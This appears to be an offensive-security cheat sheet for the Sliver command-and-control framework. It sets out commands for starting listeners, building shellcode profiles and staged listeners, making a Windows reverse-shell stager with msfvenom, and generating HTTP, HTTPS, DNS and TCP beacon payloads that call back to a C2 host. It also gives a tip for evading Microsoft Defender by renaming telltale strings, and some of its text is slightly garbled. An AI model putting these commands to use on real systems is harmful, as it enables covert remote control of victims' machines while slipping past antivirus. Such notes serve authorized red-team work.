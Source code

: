 ## Stagers

1. Start payload listener
```bash
mtls -l 9001
```

2. Configure profile(s)
```bash
profiles new --mtls <ip>:9001 -l -f shellcode <profile name>
profiles new beacon --http http://<ip>:<port> -f shellcode <profile name>
```

3. Create staged listener
```bash
stage-listener -u http://<ip>:<port not 9001> -p <profile name>
stage-listener -u tcp://<ip>:<new port> -p <profile name>
```
4. Create stage with `msfvenom`
```bash
msfvenom -p windows/x64/custom/reverse_<tcp|winhttp|...> lhost=<ip or device name> lport=<port>
```
	*Note:* for `winhttp` payloads `LURwhat.woff` needs to be included
5. Custom stager (example code can be found here: https://sliver.sh/docs?name=Stagers)
	1. *Note:* to evade Defender, change the text `Sliver-stager, Stager, shellcode, and DownloadAndExecute`
## Command Examples:

The Sliver C2 framework is a powerful and flexible post-exploitation command and control tool. Here is a list of common commands you can use with Sliver for generating payloads and performing post-exploitation activities. Note that the exact commands may vary depending on the version of Sliver you are using. For the most up-to-date information, consult the official Sliver documentation or use the help commands within the Sliver console.

### Payload Generation Commands

1. **Generate an HTTP payload**:
   ```bash
   generate --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

2. **Generate an HTTPS payload**:
   ```bash
   generate --https --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

3. **Generate a DNS payload**:
   ```bash
   generate --dns --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

4. **Generate a TCP payload**:
   ```bash
   generate --tcp --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```
